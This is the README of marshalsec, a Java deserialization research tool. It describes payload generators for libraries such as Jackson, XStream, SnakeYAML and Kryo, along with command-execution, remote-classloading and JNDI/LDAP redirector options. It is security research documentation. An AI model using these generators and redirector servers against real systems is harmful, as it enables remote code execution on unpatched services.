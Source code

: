 # Java Unmarshaller Security - Turning your data into code execution

## Paper

It's been more than two years since Chris Frohoff and Garbriel Lawrence have presented their research into Java object deserialization vulnerabilities ultimately resulting in what can be readily described as the biggest wave of remote code execution bugs in Java history.

Research into that matter indicated that these vulnerabilities are not exclusive to mechanisms as expressive as Java serialization or XStream, but some could possibly be applied to other mechanisms as well.

This paper presents an analysis, including exploitation details, of various Java open-source marshalling libraries that allow(ed) for unmarshalling of arbitrary, attacker supplied, types and shows that no matter how this process is performed and what implicit constraints are in place it is prone to similar exploitation techniques.

Full paper is at [marshalsec.pdf](https://www.github.com/mbechler/marshalsec/blob/marshalsec.pdf?raw=true)

## Disclaimer

All information and code is provided solely for educational purposes and/or testing your own systems for these vulnerabilities.

## Usage

Java 8 required. Build using maven ```mvn clean package -DskipTests```. Run as

```shell
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
```

where

* **-a** - generates/tests all payloads for that marshaller
* **-t** - runs in test mode, unmarshalling the generated payloads after generating them.
* **-v** - verbose mode, e.g. also shows the generated payload in test mode.
* **gadget_type** - Identifier of a specific gadget, if left out will display the available ones for that specific marshaller.
* **arguments** - Gadget specific arguments

Payload generators for the following marshallers are included:<br />

| Marshaller                      | Gadget Impact
| ------------------------------- | ----------------------------------------------
| BlazeDSAMF(0&#124;3&#124;X)     | JDK only escalation to Java serialization<br/>various third party libraries RCEs
| Hessian&#124;Burlap             | various third party RCEs
| Castor                          | dependency library RCE
| Jackson                         | **possible JDK only RCE**, various third party RCEs
| Java                            | yet another third party RCE
| JsonIO                          | **JDK only RCE**
| JYAML                           | **JDK only RCE**
| Kryo                            | third party RCEs
| KryoAltStrategy                 | **JDK only RCE**
| Red5AMF(0&#124;3)               | **JDK only RCE**
| SnakeYAML                       | **JDK only RCEs**
| XStream                         | **JDK only RCEs**
| YAMLBeans                       | third party RCE

## Arguments and additional prerequisites

### System Command Execution

* **cmd** - command to execute
* **args...** - additional parameters passed as arguments

No prerequisites.

### Remote Classloading (plain)

* **codebase** - URL to remote codebase
* **class** - Class to load

**Prerequisites**:

* Set up a webserver hosting a Java classpath under some path.
* Compiled class files to load need to be served according to Java classpath conventions.

### Remote Classloading (ServiceLoader)

* **service_codebase** - URL to remote codebase

The service to load is currently hardcoded to *javax.script.ScriptEngineFactory*.

**Prerequisites**:

* Same as plain remote classloading.
* Also needs a provider-configuration file at *<codebase>*/META-INF/javax.script.ScriptEngineFactory
  containing the targeted class name in plain text.
* Target class specified there needs to implement the service interface *javax.script.ScriptEngineFactory*.


### JNDI Reference indirection

* **jndiUrl** - JNDI URL to trigger lookup on


**Prerequisites**:

* Set up a remote codebase, same as remote classloading.
* Run a JNDI reference redirector service pointing to that codebase -
  two implementations are included: *marshalsec.jndi.LDAPRefServer* and *RMIRefServer*.

      ```java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.jndi.(LDAP|RMI)RefServer <codebase>#<class> [<port>]```

* Use (ldap|rmi)://*host*:*port*/obj as the *jndiUrl*, pointing to that service's listening address.

## Running tests

There are a couple of system properties that control the arguments when running tests (through maven or when using **-a**)

* **exploit.codebase**, defaults to *http://localhost:8080/*
* **exploit.codebaseClass**, defaults to *Exploit*
* **exploit.jndiUrl**, defaults to *ldap://localhost:1389/obj*
* **exploit.exec**, defaults to */usr/bin/gedit*

Tests run with a SecurityManager installed that checks for system command execution as well as code executing from remote codebases.
For that to work the loaded class in use must trigger some security manager check.



